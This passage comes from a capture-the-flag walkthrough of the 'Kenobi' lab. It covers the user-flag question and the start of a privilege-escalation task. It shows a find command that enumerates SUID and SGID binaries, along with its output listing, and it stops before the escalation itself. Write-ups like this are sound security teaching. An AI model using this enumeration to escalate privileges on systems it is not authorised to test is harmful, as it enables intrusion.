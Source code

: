 ![Untitled](</assets/images/thm/Kenobi/Untitled 7.png>)

> Question11: What is Kenobi's user flag (/home/kenobi/user.txt)?
>
> <img src="/assets/images/thm/Kenobi/Untitled 8.png" alt="Untitled" data-size="original">
>
> * i’m sorry for hiding the flag, but you should get it by yourself to practice

***

## Task4: Privilege Escalation with Path Variable Manipulation

*   Let’s search for any SUID or SGID file using `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

    ```
    kenobi@kenobi:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
    -rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
    -rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec